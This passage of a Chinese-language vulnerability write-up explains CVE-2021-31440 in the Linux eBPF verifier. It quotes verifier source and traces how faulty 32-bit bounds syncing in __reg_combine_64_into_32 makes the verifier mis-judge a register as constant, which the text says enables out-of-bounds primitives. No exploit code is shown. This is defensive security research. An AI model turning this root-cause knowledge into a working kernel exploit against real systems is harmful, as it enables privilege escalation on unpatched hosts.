| `BPF_MAP_TYPE_HASH`              | 通用哈希表，动态增长       | 任意键值存储 |
| `BPF_MAP_TYPE_ARRAY`             | 定长数组，索引为键，预分配 | 计数器、统计 |
| `BPF_MAP_TYPE_PERCPU_HASH/ARRAY` | 每 CPU 副本，减少锁竞争    | 高性能计数   |
| `BPF_MAP_TYPE_PROG_ARRAY`        | 存储程序 fd，实现尾调用    | 跳转表       |
| `BPF_MAP_TYPE_STACK_TRACE`       | 存储栈跟踪                 | profiling    |
| `BPF_MAP_TYPE_RINGBUF`           | 环形缓冲区，高效数据传输   | 事件通知     |

在后续的漏洞利用分析中，`BPF_MAP_TYPE_ARRAY` 和 `BPF_MAP_TYPE_HASH` 是最常涉及的两种类型，因为它们允许用户态与 eBPF 程序双向读写任意大小的值，且 `ARRAY` 类型的线性内存布局为构造越界访问提供了便利条件。

Map 的键和值类型在创建时指定，内核负责维护其生命周期。eBPF 程序内部通过辅助函数（helper）访问 Map：

```c
// eBPF 程序内访问 Map 的 helper 调用（C 伪代码）
void *map_lookup_elem(struct bpf_map *map, void *key);
long map_update_elem(struct bpf_map *map, void *key, void *value, u64 flags);
long map_delete_elem(struct bpf_map *map, void *key);
```

这些 helper 在 Verifier 阶段会被检查，确保指针有效、类型匹配。若验证器的状态跟踪出现偏差，后续的操作可能超出预期范围。

**Map 的内部结构（简化）**：



### 3-4. Verifier 详细工作流程

Verifier 是 eBPF 安全的核心，其实现位于 `kernel/bpf/verifier.c`。以下为其关键步骤：



**关键数据结构**：`struct bpf_reg_state` 记录了每个寄存器的抽象状态，其中 `var_off`（`struct tnum`）用于表示已知位和未知位。当寄存器被赋予已知常量时，`var_off.mask` 为 0，`var_off.value` 即为该常量的 64 位表示。

**ALU 指令的范围跟踪调用链**：当 Verifier 在路径模拟中遇到 ALU 指令时，会进入 `check_alu_op()` 函数，进而调用 `adjust_reg_min_max_vals()` 来更新目的寄存器的取值范围。该函数根据指令类型（如 `BPF_ADD`、`BPF_SUB`、`BPF_AND`、`BPF_OR` 等）分派到不同的处理逻辑。对于按位与（`BPF_AND`），会调用 `adjust_scalar_min_max_vals()`，后者再依次调用 `scalar_min_max_and()`（更新 64 位边界）和 `scalar32_min_max_and()`（更新 32 位边界）。其他按位运算遵循类似的调用结构，64 位处理函数负责更新完整的 64 位范围，32 位处理函数则专门维护 `u32_min_value`、`u32_max_value` 等子寄存器边界。

完整的调用路径为：

```
do_check()
  → check_alu_op()
    → adjust_reg_min_max_vals()
      → adjust_scalar_min_max_vals()
        → scalar_min_max_and (64 位边界更新)
        → scalar32_min_max_and (32 位边界更新)
```

在条件跳转指令的处理中，Verifier 还利用了 `tnum_equals_const` 和 `tnum_is_const` 等辅助函数进行常量判定：

- `tnum_is_const(t)`：当 `t.mask == 0` 时返回真，表示整个 64 位寄存器的每一位都是确定的。
- `tnum_subreg_is_const(t)`：当 `t.mask & 0xFFFFFFFF == 0` 时返回真，表示低 32 位都是确定的，高位可以不确定。
- `tnum_equals_const(t, c)`：当 `t.mask == 0 && t.value == (u64)c` 时返回真，用于判断寄存器是否等于指定的常量。

这些判定函数的区别直接影响 Verifier 对寄存器的分类。例如，若 `var_off = {mask = 0xFFFFFFFF00000000, value = 1}`，则 `tnum_is_const` 返回假（高 32 位不确定），而 `tnum_subreg_is_const` 返回真（低 32 位为 1）。这种区分正是 **CVE-2021-31440** 能够被触发的重要前提之一——当 Verifier 在 `__reg_combine_64_into_32` 中错误推导 32 位边界时，低 32 位可能被误判为常量，而实际运行时并非如此。

**条件跳转优化细节**：在 `check_cond_jmp_op` 中，对于 `BPF_JEQ` 和 `BPF_JNE` 指令，如果目标寄存器是 `SCALAR_VALUE` 且 `tnum_equals_const(dst_reg->var_off, insn->imm)` 为真，Verifier 会认为该分支的走向已经确定：

- 对于 `JEQ`：条件必然成立，只跟随跳转分支，fall-through 被标记不可达。
- 对于 `JNE`：条件必然不成立，只跟随 fall-through 分支，跳转分支被标记不可达。

`tnum_equals_const` 比较的是 `var_off.value` 与 `insn->imm`（作为 `u64` 传入）。由于 C 语言隐式类型转换，`insn->imm`（`__s32`）会被符号扩展为 64 位。这一优化本意是加速已知常量的比较，但若 Verifier 错误地记录了寄存器值（如第二章所述，将运行时为 1 的寄存器判定为常量 0），就会导致错误的路径标记，使本应保留的分支被意外剪枝。

**安全保证**：

- 所有寄存器在使用前已被初始化（`NOT_INIT` 检查）。
- 指针算术不越界（例如 map 指针只能在合法偏移内访问）。
- 栈访问不超出 512 字节。
- 辅助函数调用参数类型匹配。
- 程序不会陷入无限循环（< 5.3 直接拒绝循环，5.3+ 限制循环次数）。

这些安全保证共同构成了 eBPF 的安全模型。然而，当 Verifier 的状态跟踪出现偏差时，这些保证可能被削弱甚至失效，这正是本漏洞的核心问题所在。

### 3-5. 典型用户态工作流示例

以下是一个完整的用户态代码片段，演示创建 Map、加载程序、交互的过程（简化）：

```c
// 1. 创建 Map
int map_fd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long), 1024);

// 2. 准备字节码（此处为示例，实际需要合法程序）
struct bpf_insn prog[] = {
    // ... 指令序列
};

// 3. 加载程序
char license[] = "GPL";
int prog_fd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, 4, license);
if (prog_fd < 0) {
    // 查看日志
    printf("Verifier log: %s\n", log_buf);
}

// 4. 通过 Map 交互
int key = 0;
long value = 42;
bpf_update_elem(map_fd, &key, &value, BPF_ANY);

// 5. 读取结果
bpf_lookup_elem(map_fd, &key, &value);

// 6. 清理
close(prog_fd);
close(map_fd);
```

对应的时序图：



### 3-6. eBPF 设计理念与安全挑战

eBPF 是一个在内核可编程框架中具有代表性的实现，它允许用户在不修改内核源码或加载内核模块的前提下，将自定义逻辑注入到内核事件路径中。其核心设计理念可以概括为：

- **安全优先**：所有 eBPF 程序必须通过 Verifier 的静态分析才能运行，Verifier 充当了“安全门卫”的角色，确保程序不会破坏内核的稳定性。
- **数据通道隔离**：Map 是用户态与内核态程序之间唯一合法的数据交换媒介，它将两边的地址空间隔离开来，限制了程序的直接内存访问能力。
- **能力受限**：eBPF 程序不能随意调用内核函数，只能通过预定义的 helper 函数与外界交互，且早期版本不允许循环，从而将潜在风险控制在可接受范围内。

然而，Verifier 的正确性依赖于其对 eBPF 指令语义的精确模拟。第二章所分析的 **CVE-2021-31440** 正是利用了 `__reg_combine_64_into_32` 函数在处理无符号 32 位边界同步时的独立检查缺陷——该缺陷使得 Verifier 在 `umin_value` 落在 32 位范围内而 `umax_value` 落在 32 位范围外时，错误地将 `u32_min_value` 更新为 `(u32)umin_value`，而 `u32_max_value` 保留旧值（通常为 `U32_MAX`），产生 `u32_min_value > u32_max_value` 的矛盾状态。这一矛盾状态在后续的 `__update_reg_bounds` 中被进一步处理，最终使得 Verifier 将运行时为 1 的寄存器误判为常量 0。

Verifier 中的范围跟踪是一个高度复杂的抽象解释过程，任何状态更新函数中的条件分支逻辑偏差，都可能导致寄存器状态与实际语义不符，进而为越界内存访问的构造提供入口。该漏洞的根源明确集中在 `__reg_combine_64_into_32` 函数中，其错误在于对 `umin` 和 `umax` 的检查采用了独立条件而非联合条件。当 `umin` 落入 32 位范围而 `umax` 超出时，`u32_min_value` 被错误更新而 `u32_max_value` 残存旧值，形成矛盾区间。这种设计缺陷反映了在抽象解释中处理跨越不同位宽边界时的常见难点——必须在保守近似与精确性之间取得平衡，而任何对边界条件的误判都可能破坏整个分析域的一致性。

这一案例表明，即使是最严谨的静态分析工具，也可能因为一个看似微小的边界检查条件逻辑不当（独立检查而非联合检查），而导致整个安全模型的可靠性受到削弱。eBPF 子系统的安全模型建立在 Verifier 的精确性之上，任何状态跟踪函数的细微偏差都可能被反复推敲并放大为具有实际影响的越界原语。因此，对 Verifier 中每一处边界更新逻辑进行严格的数学验证，并采用更统一的区间抽象框架，是提升 eBPF 整体安全性的重要方向。

## 4. 漏洞分析

本章基于第三章介绍的 eBPF 基础架构，深入剖析 **CVE-2021-31440** 的源码级成因。我们将沿着 Verifier 的执行路径，从主循环入口逐步跟踪到缺陷函数，分析边界状态如何在条件跳转处理中被错误推导，以及这一错误如何传播并最终导致 Verifier 状态与实际执行语义的分歧。

### 4-1. 主循环与指令分派

Verifier 的核心验证逻辑位于 `do_check()` 函数中，该函数遍历程序中的所有指令，逐条进行状态模拟和安全性检查。其主循环结构如下：

```c
static int do_check(struct bpf_verifier_env *env)
{
    bool pop_log = !(env->log.level & BPF_LOG_LEVEL2);
    struct bpf_verifier_state *state = env->cur_state;
    struct bpf_insn *insns = env->prog->insnsi;
    struct bpf_reg_state *regs;
    int insn_cnt = env->prog->len;
    bool do_print_state = false;
    int prev_insn_idx = -1;

    for (;;) {
        struct bpf_insn *insn;
        u8 class;
        int err;

        env->prev_insn_idx = prev_insn_idx;
        if (env->insn_idx >= insn_cnt) {
            verbose(env, "invalid insn idx %d insn_cnt %d\n",
                env->insn_idx, insn_cnt);
            return -EFAULT;
        }

        insn = &insns[env->insn_idx];
        class = BPF_CLASS(insn->code);

        /* 检查指令处理复杂度限制，防止路径爆炸 */
        if (++env->insn_processed > BPF_COMPLEXITY_LIMIT_INSNS) {
            verbose(env,
                "BPF program is too large. Processed %d insn\n",
                env->insn_processed);
            return -E2BIG;
        }

        /* 状态访问检查：判断当前状态是否已访问过，若已访问则可剪枝 */
        err = is_state_visited(env, env->insn_idx);
        if (err < 0)
            return err;
        if (err == 1) {
            /* 发现等价状态，可以剪枝搜索 */
            if (env->log.level & BPF_LOG_LEVEL) {
                if (do_print_state)
                    verbose(env, "\nfrom %d to %d%s: safe\n",
                        env->prev_insn_idx, env->insn_idx,
                        env->cur_state->speculative ?
                        " (speculative execution)" : "");
                else
                    verbose(env, "%d: safe\n", env->insn_idx);
            }
            goto process_bpf_exit;
        }

        if (signal_pending(current))
            return -EAGAIN;

        if (need_resched())
            cond_resched();

        /* 日志输出：打印当前指令和寄存器状态 */
        if (env->log.level & BPF_LOG_LEVEL2 ||
            (env->log.level & BPF_LOG_LEVEL && do_print_state)) {
            if (env->log.level & BPF_LOG_LEVEL2)
                verbose(env, "%d:", env->insn_idx);
            else
                verbose(env, "\nfrom %d to %d%s:",
                    env->prev_insn_idx, env->insn_idx,
                    env->cur_state->speculative ?
                    " (speculative execution)" : "");
            print_verifier_state(env, state->frame[state->curframe]);
            do_print_state = false;
        }

        if (env->log.level & BPF_LOG_LEVEL) {
            const struct bpf_insn_cbs cbs = {
                .cb_print    = verbose,
                .private_data    = env,
            };

            verbose_linfo(env, env->insn_idx, "; ");
            verbose(env, "%d: ", env->insn_idx);
            print_bpf_insn(&cbs, insn, env->allow_ptr_leaks);
        }

        /* 硬件卸载设备相关检查 */
        if (bpf_prog_is_dev_bound(env->prog->aux)) {
            err = bpf_prog_offload_verify_insn(env, env->insn_idx,
                               env->prev_insn_idx);
            if (err)
                return err;
        }

        regs = cur_regs(env);
        env->insn_aux_data[env->insn_idx].seen = env->pass_cnt;
        prev_insn_idx = env->insn_idx;

        /* 根据指令类型分派到不同的处理函数 */
        if (class == BPF_ALU || class == BPF_ALU64) {
            err = check_alu_op(env, insn);
            if (err)
                return err;

        } else if (class == BPF_LDX) {
            /* ... 省略 LDX 处理细节 ... */

        } else if (class == BPF_STX) {
            /* ... 省略 STX 处理细节 ... */

        } else if (class == BPF_ST) {
            /* ... 省略 ST 处理细节 ... */

        } else if (class == BPF_JMP || class == BPF_JMP32) {
            u8 opcode = BPF_OP(insn->code);

            env->jmps_processed++;
            if (opcode == BPF_CALL) {
                /* ... 省略 CALL 处理细节 ... */
            } else if (opcode == BPF_JA) {
                /* ... 省略 JA 处理细节 ... */
            } else if (opcode == BPF_EXIT) {
                /* ... 省略 EXIT 处理细节 ... */
            } else {
                /* 条件跳转处理 — 漏洞触发关键路径 */
                err = check_cond_jmp_op(env, insn, &env->insn_idx);
                if (err)
                    return err;
            }
        } else if (class == BPF_LD) {
            /* ... 省略 LD 处理细节 ... */
        } else {
            verbose(env, "unknown insn class %d\n", class);
            return -EINVAL;
        }

        env->insn_idx++;
    }

    return 0;
}
```

`do_check()` 的主循环本质上是一个指令调度器，根据指令类别（`class`）分派到对应的处理函数。对于 **CVE-2021-31440** 的触发而言，两条路径至关重要：条件跳转路径（`class == BPF_JMP`）直接通向缺陷函数；ALU 运算路径（`class == BPF_ALU`）则负责后续的算术运算和边界传播，是分歧状态得以延续和放大的关键环节。下图清晰地展示了这一分派逻辑中与漏洞触发密切相关的两条关键路径：



从图中可见，条件跳转路径直接通向缺陷函数 `__reg_combine_64_into_32`，而 ALU 路径则通过 `__update_reg_bounds` 对状态进行持续精化，这两条路径的交叉作用最终导致分歧状态的固化与传播。

### 4-2. 条件跳转与状态分裂

条件跳转指令的处理函数 `check_cond_jmp_op()` 负责对条件分支进行状态分裂，并为 true 和 false 两个分支分别更新寄存器范围。其核心逻辑如下：

```c
static int check_cond_jmp_op(struct bpf_verifier_env *env,
                 struct bpf_insn *insn, int *insn_idx)
{
    struct bpf_verifier_state *this_branch = env->cur_state;
    struct bpf_verifier_state *other_branch;
    struct bpf_reg_state *regs = this_branch->frame[this_branch->curframe]->regs;
    struct bpf_reg_state *dst_reg, *other_branch_regs, *src_reg = NULL;
    u8 opcode = BPF_OP(insn->code);
    bool is_jmp32;
    int pred = -1;
    int err;

    /* 仅条件跳转到达此处，排除无效操作码 */
    if (opcode == BPF_JA || opcode > BPF_JSLE) {
        verbose(env, "invalid BPF_JMP/JMP32 opcode %x\n", opcode);
        return -EINVAL;
    }

    /* 处理源操作数（寄存器或立即数） */
    if (BPF_SRC(insn->code) == BPF_X) {
        if (insn->imm != 0) {
            verbose(env, "BPF_JMP/JMP32 uses reserved fields\n");
            return -EINVAL;
        }

        err = check_reg_arg(env, insn->src_reg, SRC_OP);
        if (err)
            return err;

        if (is_pointer_value(env, insn->src_reg)) {
            verbose(env, "R%d pointer comparison prohibited\n",
                insn->src_reg);
            return -EACCES;
        }
        src_reg = &regs[insn->src_reg];
    } else {
        if (insn->src_reg != BPF_REG_0) {
            verbose(env, "BPF_JMP/JMP32 uses reserved fields\n");
            return -EINVAL;
        }
    }

    /* 检查目标操作数寄存器 */
    err = check_reg_arg(env, insn->dst_reg, SRC_OP);
    if (err)
        return err;

    dst_reg = &regs[insn->dst_reg];
    is_jmp32 = BPF_CLASS(insn->code) == BPF_JMP32;

    /* 尝试静态预测分支走向：当比较的一方为已知常量时，可预判结果 */
    if (BPF_SRC(insn->code) == BPF_K) {
        pred = is_branch_taken(dst_reg, insn->imm, opcode, is_jmp32);
    } else if (src_reg->type == SCALAR_VALUE &&
           is_jmp32 && tnum_is_const(tnum_subreg(src_reg->var_off))) {
        pred = is_branch_taken(dst_reg,
                       tnum_subreg(src_reg->var_off).value,
                       opcode, is_jmp32);
    } else if (src_reg->type == SCALAR_VALUE &&
           !is_jmp32 && tnum_is_const(src_reg->var_off)) {
        pred = is_branch_taken(dst_reg,
                       src_reg->var_off.value,
                       opcode, is_jmp32);
    } else if (reg_is_pkt_pointer_any(dst_reg) &&
           reg_is_pkt_pointer_any(src_reg) && !is_jmp32) {
        pred = is_pkt_ptr_branch_taken(dst_reg, src_reg, opcode);
    }

    /* 若预测确定，则进行精度标记 */
    if (pred >= 0) {
        if (!__is_pointer_value(false, dst_reg))
            err = mark_chain_precision(env, insn->dst_reg);
        if (BPF_SRC(insn->code) == BPF_X && !err &&
            !__is_pointer_value(false, src_reg))
            err = mark_chain_precision(env, insn->src_reg);
        if (err)
            return err;
    }

    /* 若预测为真，仅跟随跳转分支；若预测为假，仅跟随 fall-through 分支 */
    if (pred == 1) {
        *insn_idx += insn->off;
        return 0;
    } else if (pred == 0) {
        return 0;
    }

    /* 无法静态预测，创建另一个分支状态进行分裂 */
    other_branch = push_stack(env, *insn_idx + insn->off + 1, *insn_idx, false);
    if (!other_branch)
        return -EFAULT;
    other_branch_regs = other_branch->frame[other_branch->curframe]->regs;

    /* 核心：根据比较操作更新两个分支中寄存器的 min/max 范围 */
    if (BPF_SRC(insn->code) == BPF_X) {
        struct bpf_reg_state *src_reg = &regs[insn->src_reg];

        if (dst_reg->type == SCALAR_VALUE && src_reg->type == SCALAR_VALUE) {
            if (tnum_is_const(src_reg->var_off) ||
                (is_jmp32 && tnum_is_const(tnum_subreg(src_reg->var_off))))
                reg_set_min_max(&other_branch_regs[insn->dst_reg],
                        dst_reg, src_reg->var_off.value,
                        tnum_subreg(src_reg->var_off).value,
                        opcode, is_jmp32);
            else if (tnum_is_const(dst_reg->var_off) ||
                 (is_jmp32 && tnum_is_const(tnum_subreg(dst_reg->var_off))))
                reg_set_min_max_inv(&other_branch_regs[insn->src_reg],
                            src_reg, dst_reg->var_off.value,
                            tnum_subreg(dst_reg->var_off).value,
                            opcode, is_jmp32);
            else if (!is_jmp32 && (opcode == BPF_JEQ || opcode == BPF_JNE))
                reg_combine_min_max(&other_branch_regs[insn->src_reg],
                            &other_branch_regs[insn->dst_reg],
                            src_reg, dst_reg, opcode);
            /* 处理等值寄存器传播 */
            if (src_reg->id &&
                !WARN_ON_ONCE(src_reg->id != other_branch_regs[insn->src_reg].id)) {
                find_equal_scalars(this_branch, src_reg);
                find_equal_scalars(other_branch, &other_branch_regs[insn->src_reg]);
            }
        }
    } else if (dst_reg->type == SCALAR_VALUE) {
        /* 立即数比较，直接调用 reg_set_min_max */
        reg_set_min_max(&other_branch_regs[insn->dst_reg],
                    dst_reg, insn->imm, (u32)insn->imm,
                    opcode, is_jmp32);
    }

    /* 处理等值标量寄存器传播 */
    if (dst_reg->type == SCALAR_VALUE && dst_reg->id &&
        !WARN_ON_ONCE(dst_reg->id != other_branch_regs[insn->dst_reg].id)) {
        find_equal_scalars(this_branch, dst_reg);
        find_equal_scalars(other_branch, &other_branch_regs[insn->dst_reg]);
    }

    /* 处理指针可能为 NULL 的情况（map 查找返回值） */
    if (!is_jmp32 && BPF_SRC(insn->code) == BPF_K &&
        insn->imm == 0 && (opcode == BPF_JEQ || opcode == BPF_JNE) &&
        reg_type_may_be_null(dst_reg->type)) {
        mark_ptr_or_null_regs(this_branch, insn->dst_reg, opcode == BPF_JNE);
        mark_ptr_or_null_regs(other_branch, insn->dst_reg, opcode == BPF_JEQ);
    } else if (!try_match_pkt_pointers(insn, dst_reg, &regs[insn->src_reg],
                       this_branch, other_branch) &&
           is_pointer_value(env, insn->dst_reg)) {
        verbose(env, "R%d pointer comparison prohibited\n", insn->dst_reg);
        return -EACCES;
    }

    if (env->log.level & BPF_LOG_LEVEL)
        print_verifier_state(env, this_branch->frame[this_branch->curframe]);
    return 0;
}
```

在 `check_cond_jmp_op()` 中，当比较的一方为已知常量时，Verifier 会调用 `reg_set_min_max()` 来更新分支中的寄存器范围。这是边界跟踪的核心环节，也是缺陷函数被调用的直接上下文。对于 64 位比较（`!is_jmp32`），`reg_set_min_max()` 最终会调用 `__reg_combine_64_into_32()` 来同步 32 位边界。下图展示了该函数中状态分裂与边界更新的完整流程：



在完成分支创建和边界更新后，`reg_set_min_max()` 被调用来具体更新两个分支中寄存器的数值范围，而该函数对 64 位比较的处理路径正是缺陷的触发点。

### 4-3. 寄存器边界更新

`reg_set_min_max()` 函数负责根据比较操作的结果，分别更新 true 分支和 false 分支中目标寄存器的范围：

```c
static void reg_set_min_max(struct bpf_reg_state *true_reg,
                struct bpf_reg_state *false_reg,
                u64 val, u32 val32,
                u8 opcode, bool is_jmp32)
{
    struct tnum false_32off = tnum_subreg(false_reg->var_off);
    struct tnum false_64off = false_reg->var_off;
    struct tnum true_32off = tnum_subreg(true_reg->var_off);
    struct tnum true_64off = true_reg->var_off;
    s64 sval = (s64)val;
    s32 sval32 = (s32)val32;

    /* 若目标寄存器为指针，无法从比较中学到有用的偏移信息 */
    if (__is_pointer_value(false, false_reg))
        return;

    switch (opcode) {
    case BPF_JEQ:
    case BPF_JNE:
    {
        struct bpf_reg_state *reg = opcode == BPF_JEQ ? true_reg : false_reg;
        /* JEQ/JNE 比较标记寄存器为已知常量，保留其 ID */
        if (is_jmp32)
            __mark_reg32_known(reg, val32);
        else
            ___mark_reg_known(reg, val);
        break;
    }
    case BPF_JSET:
        /* 位测试操作：更新 var_off 的已知位 */
        if (is_jmp32) {
            false_32off = tnum_and(false_32off, tnum_const(~val32));
            if (is_power_of_2(val32))
                true_32off = tnum_or(true_32off, tnum_const(val32));
        } else {
            false_64off = tnum_and(false_64off, tnum_const(~val));
            if (is_power_of_2(val))
                true_64off = tnum_or(true_64off, tnum_const(val));
        }
        break;
    case BPF_JGE:
    case BPF_JGT:
        /* 无符号大于等于 / 大于比较 */
        if (is_jmp32) {
            u32 false_umax = opcode == BPF_JGT ? val32 : val32 - 1;
            u32 true_umin = opcode == BPF_JGT ? val32 + 1 : val32;
            false_reg->u32_max_value = min(false_reg->u32_max_value, false_umax);
            true_reg->u32_min_value = max(true_reg->u32_min_value, true_umin);
        } else {
            u64 false_umax = opcode == BPF_JGT ? val : val - 1;
            u64 true_umin = opcode == BPF_JGT ? val + 1 : val;
            false_reg->umax_value = min(false_reg->umax_value, false_umax);
            true_reg->umin_value = max(true_reg->umin_value, true_umin);
        }
        break;
    case BPF_JSGE:
    case BPF_JSGT:
        /* 有符号大于等于 / 大于比较 */
        if (is_jmp32) {
            s32 false_smax = opcode == BPF_JSGT ? sval32 : sval32 - 1;
